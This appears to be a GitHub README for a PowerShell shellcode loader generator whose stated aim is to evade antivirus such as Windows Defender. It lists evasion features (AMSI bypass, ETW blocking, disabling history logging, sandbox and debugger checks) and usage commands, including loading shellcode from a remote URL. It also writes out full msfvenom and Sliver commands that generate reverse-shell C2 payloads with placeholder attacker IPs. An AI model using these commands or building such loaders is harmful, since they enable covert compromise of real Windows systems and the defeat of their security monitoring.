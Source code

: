 ### Invoke-PoSH-ShellCodeLoader v2.1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader' is a shellcode loader script generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellcode loader PowerShell script that will inject the shellcode into the current process's virtual address space.  

#### FEATURES
  - Shellcode injection into the memory of the current process (PowerShell)
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  - Compatible with shellcodes from multiple C2 frameworks (Metasploit, Silver and Havoc)

#### USAGE
1. Examples with a shellcode file stored locally
```
  - Import-Module ./Invoke-PoSH-ShellCodeLoader.ps1
  - Invoke-PoSH-ShellCodeLoader -Type MSF -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1
    --- or ---
  - Invoke-PoSH-ShellCodeLoader -Type Sliver -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1
    --- or ---
  - Invoke-PoSH-ShellCodeLoader -Type Havoc -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1
```

2. Examples with a shellcode file stored on a remote web server
```
  - Import-Module ./Invoke-PoSH-ShellCodeLoader.ps1
  - Invoke-PoSH-ShellCodeLoader -Type MSF -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1 
    --- or ---
  - Invoke-PoSH-ShellCodeLoader -Type Sliver -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1 
    --- or ---
  - Invoke-PoSH-ShellCodeLoader -Type Havoc -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1 
```
3. Examples with the optional parameter '-Sandbox'
```
  - Invoke-PoSH-ShellCodeLoader -Type MSF -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1 -Sandbox
  - Invoke-PoSH-ShellCodeLoader -Type Sliver -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1  -Sandbox
```

#### INPUT (Shellcode formats)  
- Metasploit C2 Framework  
  ```msfvenom -p windows/x64/meterpreter_reverse_https EXITFUNC=thread HandlerSSLCert=/path/cert.pem LHOST=IP LPORT=port -a x64 -f raw -o shellcode```  
  
- Sliver C2 Framework  
  ```[server] sliver > generate --arch amd64 -f shellcode --http IP -l --os Windows --save shellcode```  
  ```@Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2```  
  ```@Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3```  
  
- Havoc C2 Framework  
    1. Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64 / Indirect Syscall: Enabled / Sleep Technique: WaitForSIngleObjectEx)  
    2. To convert the Havoc shellcode to the appropriate format you need to run these commands:  
       ```@Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2```  
       ```@Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3```  

#### LICENSE
  - GNU General Public License v3.0
